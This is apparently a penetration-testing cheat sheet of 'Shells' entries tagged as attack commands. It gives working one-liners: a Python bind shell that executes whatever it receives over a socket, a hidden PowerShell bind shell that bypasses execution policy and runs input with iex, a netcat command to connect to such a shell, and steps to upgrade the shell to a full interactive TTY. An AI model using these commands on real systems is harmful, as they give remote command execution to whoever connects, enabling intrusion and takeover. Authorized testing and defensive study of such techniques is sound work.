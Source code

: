 ## Shells - bind shell python 0.0.0.0 - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",<port>));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## Shells - bind shell powershell 0.0.0.0 - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]<port>; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

## Shells - nc bind shell connection - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nc <remoteHostIP> <port>
```

## Shells - upgrading TTY (python) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Shells - upgrading TTY (python) -> ctrl+z -> stty raw -echo -> fg - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Shells - upgrading TTY terminal resize (extract values from our terminal) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo $TERM; stty size
```

## Shells - upgrading TTY remote terminal resize (on the target terminal) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
export TERM=<terminal-type>; stty rows <rows> columns <columns>
```
